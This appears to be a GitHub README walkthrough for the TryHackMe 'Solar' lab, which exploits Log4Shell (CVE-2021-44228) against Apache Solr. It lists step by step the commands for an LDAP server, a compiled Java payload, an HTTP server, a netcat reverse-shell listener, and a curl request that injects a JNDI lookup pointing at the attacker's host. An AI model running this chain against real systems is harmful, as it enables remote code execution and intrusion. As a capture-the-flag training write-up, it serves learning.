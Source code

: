 💻 -n3rdh4x0r-

# exploiting log4j CVE-2021-44228 ( TryHackMe Solar, Walkthrough)

```
git clone https://github.com/n3rdh4x0r/log4j.git 

```

## 1. run log4j.py (This whill install all the nessasary applications and start the LDAP server)

```
ifconfig tun0
python3 log4j.py 10.8.227.251

```

![image](https://user-images.githubusercontent.com/66146701/146671807-61ee758c-586b-4d45-9d50-34e7e6c4fa04.png)


## 2. Add attacker IP to Exploit.java file


![2021-12-19_00-52](https://user-images.githubusercontent.com/66146701/146672140-a1e70a73-1c3b-4e1b-a5c5-aeebf4def563.png)


## 3. Compile payload

```
javac Exploit.java -source 8 -target 8

```
![image](https://user-images.githubusercontent.com/66146701/146672281-b07fda17-a0a6-473d-8e15-bc717144d184.png)

## 4. temporary HTTP server

```
python3 -m http.server 8888

```
![image](https://user-images.githubusercontent.com/66146701/146672342-69d18b1e-e605-4906-8ee9-51868033fb6e.png)


## 5. netcat listener

```
nc -lnvp 9999

```

![image](https://user-images.githubusercontent.com/66146701/146672355-780ef25c-b3b6-4e5a-8480-ba091b95a876.png)


## 6. Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.45.175:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.227.251:1389/Exploit\}'

```

![image](https://user-images.githubusercontent.com/66146701/146672401-33233c9c-6d91-4923-96b0-fcf3b458e5db.png)


![image](https://user-images.githubusercontent.com/66146701/146672408-cbed5a01-ff4a-4cab-81e5-8704d7674a5d.png)

